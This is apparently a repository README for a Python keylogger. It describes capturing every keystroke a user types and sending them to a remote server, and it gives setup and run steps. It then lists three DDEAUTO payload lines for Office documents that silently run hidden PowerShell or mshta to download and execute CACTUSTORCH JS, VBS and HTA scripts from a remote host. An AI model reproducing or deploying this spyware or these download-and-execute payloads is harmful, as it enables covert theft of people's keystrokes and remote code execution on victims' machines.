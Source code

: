 # Keylogger
Keylogger made in Python using xlib,pyxhook,sockets,multi-threading which will send all keystrokes of the user to a remote server and if the server is offline it will save them to a file.


# HOW TO USE

1. Open the **keylogger.py** file and edit the file path and host name if you want to host the server on different machine.
2. Do the same for **server.py** file.
3. Run **server.py** and then **keylogger.py**.



---------------------------
JS PAYLOAD:
DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -w hidden -nop -ep bypass -Command (new-object System.Net.WebClient).DownloadFile('http://192.168.0.150/CACTUSTORCH.js','index.js'); & start c:\\Windows\\System32\\cmd.exe /c cscript.exe index.js"

VBS PAYLOAD:
DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -w hidden -nop -ep bypass -Command (new-object System.Net.WebClient).DownloadFile('http://192.168.0.150/CACTUSTORCH.vbs','index.vbs'); & start c:\\Windows\\System32\\cmd.exe /c cscript.exe index.vbs"

HTA PAYLOAD:
DDEAUTO C:\\Programs\\Microsoft\\Office\\MSword.exe\\..\\..\\..\\..\\windows\\system32\\mshta.exe "http://192.168.0.150/CACTUSTORCH.hta"

-----------------------------
